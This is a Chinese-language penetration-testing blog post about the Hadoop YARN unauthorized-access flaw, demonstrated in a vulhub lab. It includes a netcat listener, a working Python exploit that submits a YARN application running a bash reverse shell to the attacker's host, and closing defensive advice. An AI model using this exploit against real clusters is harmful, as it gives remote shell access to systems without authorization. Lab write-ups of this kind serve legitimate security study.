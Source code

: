 ```yaml
---
title: Hadoop未授权访问漏洞
top: false
cover: false
categories:
- 渗透测试
tags:
- Hadoop
- 未授权访问
abbrlink: 59457
date: 2020-05-26 10:14:47
keywords:
summary:
img:
password:
---
```



#### 漏洞简介以及危害
Hadoop是一个由Apache基金会所开发的分布式系统基础架构,由于服务器器直接在开放了了
Hadoop 机器器 HDFS 的 50070 web 端口及部分默认服务口口,黑客可以通过命令行操作多个目录下
的数据,如进行删除,下载,目录浏览甚至命令行行等操作,产生极大的危害。



#### 环境
vulnhub



#### 测试
启动环境
```bash
docker-compose up -d
```

访问
```
http://192.168.0.100:8088/cluster
```
![](https://image.geoer.cn/Hadoop.png)


**通过REST API命令执行**
利用过程：
在本地监听端口 > 创建Application > 调用Submit Application API提交
1.本机监听
```bash
nc -lvvp 8888
```

2.直接本机执行EXP：`python exp.py`
```python
import requests
target = 'http://192.168.0.100:8088/'
lhost = '192.168.0.105' # put your local host ip here, and listen at port 8888
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
'application-id': app_id,
'application-name': 'get-shell','am-container-spec': {
'commands': {
'command': '/bin/bash -i >& /dev/tcp/%s/8888 0>&1' % lhost,
},
},
'application-type': 'YARN',
}
requests.post(url, json=data)

```

3.反弹shell成功
![](https://image.geoer.cn/Hadoop_shell.png)


#### 防御手段
- 如无必要, 关闭 Hadoop Web 管理⻚面。
- 开启身份验证 ,防止未经授权用户访问。
- 设置“安全组”访问控制策略,将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访包括 50070 以及 WebUI 等相关端口。











